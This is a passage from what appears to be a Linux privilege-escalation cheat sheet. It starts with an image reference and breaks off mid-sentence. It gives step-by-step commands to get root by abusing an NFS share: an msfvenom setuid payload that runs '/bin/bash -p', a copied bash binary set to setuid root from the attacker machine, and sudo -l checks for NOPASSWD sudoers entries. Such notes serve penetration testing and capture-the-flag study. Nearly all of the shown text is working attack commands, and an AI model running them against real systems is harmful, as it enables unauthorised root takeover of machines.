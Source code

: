 #### Get root

- Put shell

  ```bash
  msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o /tmp/nfs/shell.elf
  chmod +xs /tmp/nfs/shell.elf
  ```

  ```bash
  /tmp/shell.elf
  ```

- Copy bash

  On victim machine

  ```bash
  cp /bin/bash bash
  ```

  On attacker machine, in /tmp/nfs

  ```bash
  sudo chown root:root bash
  sudo chmod 4777 bash
  ```

  On victim machine

  ```bash
  ./bash -p
  ```

unmount

```bash
sudo umount /tmp/nfs
rm -r /tmp/nfs
```



### Sudo

execute command as  other user

```bash
sudo -u <user> <command>
```

### Sudoers

Ex. `/etc/sudoers.d/alice:alice ssalg-gnikool = (root) NOPASSWD: /bin/bash`

```bash
 sudo -l -h ssalg-gnikool
```

If you see `User alice may run the following commands on ssalg-gnikool:
    (root) NOPASSWD: /bin/bash`, then
